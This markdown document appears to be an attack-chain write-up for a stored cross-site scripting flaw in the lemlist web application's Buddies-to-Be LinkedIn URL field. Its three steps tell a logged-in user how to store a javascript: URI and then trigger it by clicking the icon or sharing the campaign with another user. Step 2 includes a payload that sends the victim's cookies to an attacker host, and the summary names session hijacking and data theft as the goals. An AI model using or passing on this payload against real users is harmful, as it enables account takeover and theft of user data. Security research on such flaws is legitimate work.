

# Stored XSS via Malicious LinkedIn URL in lemlist Buddies-to-Be Section

Multi-stage attack chain demonstrating a complete stored XSS exploitation in the lemlist web application, where a malicious JavaScript payload is injected into the LinkedIn URL field and executed when the LinkedIn icon is clicked, potentially leading to unauthorized actions or data theft.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools

### Target Environment

- lemlist web application
- Access to campaign creation/editing interface
- No specific services/ports required beyond standard HTTPS

### Initial Access Requirements

- Valid user account in lemlist with permissions to create/edit campaigns
- No prior network position needed; direct web access suffices

## Detailed Attack Procedures

### Step 1: Add Buddy-to-Be in Campaign
procedure: [[procedures/Add-Buddy-to-Be-in-lemlist-Campaign]]

**Objective**: Set up the environment for payload injection by adding a new buddy in the campaign's Buddies-to-Be section.

**Instructions**: Log in to the lemlist dashboard, navigate to the campaign creation or editing page, and access the Buddies-to-Be section to input basic details for a new buddy.

**Expected Output**: A new buddy entry form appears, including fields for LinkedIn URL.

**Success Indicators**:
- Buddy-to-Be section is accessible
- Form fields, including LinkedIn URL, are visible and editable

### Step 2: Inject Malicious JavaScript Payload
procedure: [[procedures/Inject-Malicious-JavaScript-into-LinkedIn-URL]]

**Objective**: Insert a JavaScript URI payload into the LinkedIn URL field to store the malicious script without sanitization.

**Instructions**: In the LinkedIn account link field, enter a payload such as `javascript:alert('XSS')` or a more advanced script like `javascript:fetch('https://attacker.com/steal?cookie='+document.cookie)`. Save the buddy details to store the input.

**Expected Output**: The payload is saved without error, appearing as the LinkedIn URL in the buddy profile.

**Success Indicators**:
- Payload is accepted and stored
- No validation errors occur during save

### Step 3: Trigger Execution via LinkedIn Icon Click
procedure: [[procedures/Trigger-Stored-XSS-via-LinkedIn-Icon-Click]]

**Objective**: Execute the stored script by interacting with the LinkedIn icon, leading to arbitrary JavaScript execution in the page context.

**Instructions**: After saving, return to the campaign view or share it with another user. Click the LinkedIn icon associated with the injected buddy; this triggers the URL as a javascript: scheme, executing the payload.

**Expected Output**: The script runs, e.g., an alert pops up or data is exfiltrated to the attacker's server.

**Success Indicators**:
- Script executes (e.g., alert displays or network request to attacker domain)
- Access to sensitive data like cookies is possible

## Attack Chain Summary

### Key Achievements

1. Successful storage of unsanitized JavaScript in the LinkedIn URL field
2. Triggering of the payload via icon click for arbitrary code execution
3. Potential for session hijacking or data theft on behalf of the victim user

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
